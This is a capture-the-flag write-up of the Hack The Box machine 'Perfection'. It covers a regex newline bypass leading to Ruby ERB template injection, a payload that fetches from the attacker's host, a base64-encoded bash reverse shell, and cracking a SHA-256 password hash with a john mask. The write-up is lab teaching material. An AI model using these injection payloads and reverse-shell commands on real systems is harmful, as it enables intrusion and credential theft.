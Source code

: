 ```yaml
---
layout: post
title: "HTB: Perfection"
box: perfection
img: /img/perfection/perfection
author: Andrew Cherney
date: 2024-06-24
tags: htb easy-box linux webapp ruby john season-4
icon: "assets/icons/perfection.png"
post_description: "Short and simple box. First find a way to inject ruby commands into an online calculator, then find mail with a reference to a password scheme and the corresponding db for cracking to sudo into root."
---
```


# Summary

{{ page.post_description }}

# Enumeration

```
nmap -oA open_ports.nmap -p- 10.10.11.253 -Pn

Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-08 07:47 CST
Nmap scan report for 10.10.11.253
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
sudo nmap -sC -sV -T4 -O -p22,80 10.10.11.253

Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-08 07:53 CST
Nmap scan report for 10.10.11.253
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.3 - 5.4 (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80 - http

{% include img_link src="/img/perfection/perfection_front_page" alt="front_page" ext="png" trunc=600 %}

![weighted grades calculator]({{ page.img }}_weight_calculator.png)

Right out the gates we can see this uses WEBrick 1.7.0 and that this calculator portion of the site has a broad attack surface to test. 

![sinatra back end]({{ page.img }}_weighted_calc_backend.png)

Digging into the inspect element it seems the backend is running off of Sinatra. Cursory glances at search engines didn't reveal any pressing vulnerabilities or exploits for either WEBrick or Sinatra so I opted to check the data being sent to the Sinatra endpoint.

Sinatra allows a webdev to define routes and run code or provide web pages as a result. In this case here we are POSTing 5 grades, 5 categories and 5 weights. After testing there is some basic character filtering and the grade/weight values require numeric values. Luckily the category tab could still be vulnerable here.

# User as susan

## Abusing regex

A common staple of these character filters is using regex to define how a provided string should be handled. Typically you might see this from PHP using preg_match [and you can find more in my Zipping POST about that](https://cybercherney.github.io/2024/01/13/HTB_Zipping.html). A common way to fail to sanitize inputs with regex is to start the filtering at the beginning of the string (with ^), and failing to end the string (with $). With the lack of a defined end you can start a new line (%0A) then bypass every character being filtered. 

So to test this hypothesis we can add a simple payload of `category1=aaa%0A'` in category1 and check the return value:

```
</form>
Your total grade is 100%<p>aaa
': 100%</p>
```

Great we can send any characters we want. This webapp is using Ruby as confirmed by Wappalyzer and [https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html) is a place you can look at ways to run commands/code in Ruby. What stood out to me was the `<%= %>` in combination with `system("cmd")` to potentially run commands through Ruby. 

```
final payload

grade1=100&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0&category1=aaa%0A<%25%3d+system("wget+http%3a//10.10.14.3%3a8081/test")+%25>
```

I did get a request on my python server, forgot to grab the output but know this exploit functions as intended. From what I tested the placement of category1 doesn't matter but I placed it at the end for visibility of the exploit. Next I can place a base64 encoded reverse shell and get the user running this ruby site. 

```
command

echo+'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4zLzc3NzcgMD4mMQ%3d%3d'+|+base64+-d+|+bash
```

```bash
nc -nvlp 7777

Listening on 0.0.0.0 7777
Connection received on 10.10.11.253 57362
bash: cannot set terminal process group (989): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ whoami
whoami
susan
susan@perfection:~/ruby_app$ cat ~/user.txt
cat ~/user.txt
1e4d2c637d3dd6------------------
```

# Root

First things here we can see the user we are is susan and this app is running off of the home directory. In this directory there is also a Migration database with credentials inside.

```bash
susan@perfection:~$ ls
ls
Migration  ruby_app  user.txt
susan@perfection:~$ ls Migration
ls Migration
pupilpath_credentials.db
susan@perfection:~$ strings Migration/*
strings Migration/*
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Additionally we are in the sudo user group. 

```bash
susan@perfection:~/ruby_app$ groups
groups
susan sudo
```

I attempted to crack the password as is but it wasn't in rockyou. The hash type was SHA-256 as identified by [tunnelsup hash-analyzer](https://www.tunnelsup.com/hash-analyzer/). I turned to other places to look since nothing in LinEnum stood out to me. 

That's when I found mail in var/spool for susan referencing the migration database:

```bash
susan@perfection:~/ruby_app$ cat /var/spool/mail/susan
cat /var/spool/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

With this new format in mind we can attempt to crack this password using hashcat or john. I prefer john as my pentesting happens in a VM and hashcat isn't partial to interfacing with your GPU through a vm. 

To generate passwords for john we can use two methods, a rule or a mask. Rules are placed into a conf file and are used better when we want to reuse them, ie for appending years. Masks in our case can do exactly this one off generation. To define a mask in john we have the option to use regex or their defined method, which the latter is far more appealing. Since we need to go up to 9 digits we need 9 `?d` and john will go through all of the options permitting the password random number is 9 digits long. If we get no hits decrement the digits by 1 and try again. 

```bash
john hash --format=raw-sha256 --mask=susan_nasus_?d?d?d?d?d?d?d?d?d

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
susan_nasus_413759210 (?)
1g 0:00:00:04 DONE (2024-03-08 10:48) 0.2192g/s 22477Kp/s 22477Kc/s 22477KC/s susan_nasus_538859210..susan_nasus_313679210
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

Now we sudo su and get root.

```bash
susan@perfection:~/ruby_app$ sudo su
sudo su
root@perfection:/home/susan/ruby_app# cat /root/root.txt
cat /root/root.txt
cdc3cd64119f--------------------
```
